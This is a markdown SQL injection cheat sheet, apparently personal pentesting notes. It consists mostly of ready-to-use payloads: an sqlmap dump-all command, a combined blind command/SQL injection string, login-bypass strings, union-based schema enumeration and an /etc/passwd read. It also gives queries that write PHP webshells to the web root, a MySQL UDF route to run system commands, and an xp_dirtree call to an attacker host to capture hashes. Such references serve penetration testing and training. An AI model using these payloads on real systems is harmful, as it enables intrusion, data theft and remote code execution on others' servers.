 # SQL Injection

## Cheatsheet
- https://www.websec.ca/kb/sql_injection#Extra_About
  - https://docs.google.com/document/d/1z2ozmSfUtT_3RBUM_1FFpTEYj7yKoGBpPlASz_iShsg/edit
- https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/

## Tools
- SqlMap:
```
sqlmap -r sqlmap.req --level=5 --risk=3 --dump-all​
```
- AutoSQLi: https://github.com/jesuiscamille/AutoSQLi
- SQLiDumper: https://www.cybrary.it/0p3n/pentesting-sqli-dumper-v8-tool/
- Automatic SQL injection with Charles and sqlmap api
  - http://0r1.me/SQLiScanner/
  - https://github.com/0xbug/SQLiScanner

## Payload
Combines blind command injection and blind sql injection ( mysql ) in one payload (works with no quotes/single quotes and double quotes):
```
/*$(sleep 5)`sleep 5``*/sleep(5)#'/*$(sleep 5)`sleep 5` #*/||sleep(5)||'"||sleep(5)||"`
```
> https://mobile.twitter.com/bl4ckh4ck5/status/1100167033407320065

WebShell over MySQL

```
SELECT '<?php echo shell_exec($_GET['c']); ?>' INTO OUTFILE '/var/www/html/example.php'
```

User Defined Functions (UDF) (sqlmap/udf/mysql)

```
SELECT @@plugin_dir;
PowerShell$ Convert-Dll -DllPath lib_mysqludf_sys.dll -OutputPath bytes.txt
SELECT CHAR(64,64,....) INTO OUTFILE '<@@plugin_dir>/lib_mysqludf_sys.dll' FIELDS ESCAPED BY '';
CREATE FUNCTION sys_eval RETURNS STRING SONAME 'lib_mysqludf_sys.dll';
SELECT sys_eval('whoami');
```

```
' or 1=1 LIMIT 1 --
' or 1=1 LIMIT 1 -- -
' or 1=1 LIMIT 1#
'or 1#
' or 1=1 --
' or 1=1 -- -
```

### MySQL
- Order by to get column count: `1337 order by N`
- Read file: `LOAD_FILE('/etc/passwd')`

```
union select 1,2,group_concat(distinct table_schema separator ',') from information_schema.tables LIMIT 1,1
union select 1,2,group_concat(distinct table_name separator ',') from information_schema.tables where table_schema = 'security' LIMIT 1,1
```

- Write to file: `select 1,2,3,4,"<?php echo system($_GET['cmd']); ?>",6 INTO OUTFILE 'C:\htdocs\webroot\shell.php'`

### SQL Server

Run Responder and do following to capture hashes:
```
EXEC(master..xp_dirtree('\\(ATTACKER IP ADDRESS)\foo')--
```

## Techniques
- Add a trigger to do a malicious action (price 0)

## Language Specific

### PHP
- Good example from DOCs, where parameterization is not used: http://php.net/manual/en/mysqli.examples-basic.php (use: https://phptherightway.com/)

## Practice 

- https://github.com/Audi-1/sqli-labs

